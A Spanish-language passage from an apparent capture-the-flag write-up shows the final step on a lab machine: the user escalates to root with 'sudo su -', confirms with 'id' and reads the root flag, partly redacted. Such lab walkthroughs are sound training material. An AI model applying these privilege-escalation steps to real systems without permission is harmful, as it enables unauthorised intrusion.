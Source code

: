 3. Obtención del Shell de root y Root Flag
Utilizamos el permiso de sudo para ejecutar el comando su - (switch user) como root.

<img width="490" height="152" alt="cambiamos a root y obtenemos la flag root" src="https://github.com/user-attachments/assets/2f71ee64-6dcb-4cb2-9061-4053fb46626d" />

🧑‍💻 Comandos Finales:
````
xavi@ip-10-10-194-146:~$ sudo su -
root@ip-10-10-194-146:~$ id
uid=0(root) gid=0(root) groups=0(root)
````
Resultado: ¡Acceso como root obtenido!

Finalmente, procedemos a leer el flag final en el directorio /root.
````
root@ip-10-10-194-146:~$ cat /root/root.txt
bf89[...]
````
¡Máquina Completada!
